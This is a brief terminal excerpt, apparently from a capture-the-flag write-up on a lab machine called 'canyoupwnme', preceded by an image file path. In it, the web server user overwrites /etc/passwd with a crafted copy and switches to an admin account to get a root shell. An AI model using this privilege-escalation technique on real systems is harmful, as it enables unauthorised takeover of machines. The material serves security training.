 ```zsh
www-data@canyoupwnme:/tmp$ cp passwd /etc/passwd
cp passwd /etc/passwd
www-data@canyoupwnme:/tmp$ su admin
su admin
Password: admin

root@canyoupwnme:/tmp#
```
